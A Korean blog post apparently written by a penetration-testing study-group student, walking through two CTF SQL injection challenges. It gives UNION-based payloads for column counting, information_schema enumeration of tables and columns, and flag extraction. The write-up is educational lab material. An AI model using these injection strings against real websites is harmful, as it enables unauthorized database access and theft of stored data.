 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[SECURITY] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL INJECTION 1
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true">

처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true">

-> 대소문자 구분 X
2. ~~adminer'~~
-> X

3. **a%**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true">
-> like 구절 있어

4. ~~a#~~
-> X

5. a'#
-> X

6. **a%'#**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true">

-> ~~입력값이 들어가는 곳이 like 위치인가 보다~~
-> 괄호 안 들어가고
-> 주석 필터링 없고

7. ~~' and '1' = '1~~
-> X

8. ~~%' and '1' = '1~~
-> X

9. **' and '1' = '1'#**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true">
-> O

## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true">
-> O

11. ' order by 1, 2, 3, 4, 5 #
-> X
-> 즉, column의 개수는 4개라는 것이다.

## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true">
-> 예압 아주 사뿐하게 사용 가능했다.

## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true">
-> database 이름은 sqli_1이었다.

## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true">
-> table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.

## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true">
-> flag_table에서는 flag라는 column을 확인할 수 있었다.

21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true">
-> plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.

## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true">

23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true">

# SQL INJECTION 2
## SQL Query 파악
1. normaltic
-> 보이는 column은 ID, Level, Rank Point, info
2. normaltic' and '1' = '1
-> O
-> ID가 입력한 그대로 보임
3. *
-> row가 1개인가봐

## column 개수 파악하기
4. normaltic' order by 1, 2, 3, 4 #
-> O
5. normaltic' order by 1, 2, 3, 4, 5 #
-> O
6. normaltic' order by 1, 2, 3, 4, 5, 6 #
-> O
7. normaltic' order by 1, 2, 3, 4, 5, 6, 7 # 
-> X
-> column: 6

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. ' union select database(), 2, 3, 4, 5, 6 #
-> X
-> 1 column 비공개다
9. ' union select 1, database(), 3, 4, 5, 6 #
-> 2 column 비공개다
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 6 column 공개

## TABLE 이름 확인하기
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> flag_honey

## COLUMN 이름 확인하기
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #
-> flag

## DATA 추출하기
13. ' union select 1, 2, 3, 4, 5, flag from flag_honey #
-> kkkkkkk_Not Here!
-> 어쩐지 구라핑의 냄새가 나더라


왜 1개씩 밖에 안 보일까?
-> row가 딱 한 개다?
14. ' or '1' = '1
-> row 1개
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
-> row가 한 개 밖에 안 보이니까
-> 다른 table이 있는 데 안 보이는 거지
12. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#
-> view라는 다른 table이 보여요 좋아요
13. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #
-> secret
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #
-> flag
13. ' union select 1, 2, 3, 4, 5, flag from secret #
-> NONONO~
14. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' order by 6 #
-> flag
15. ' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #
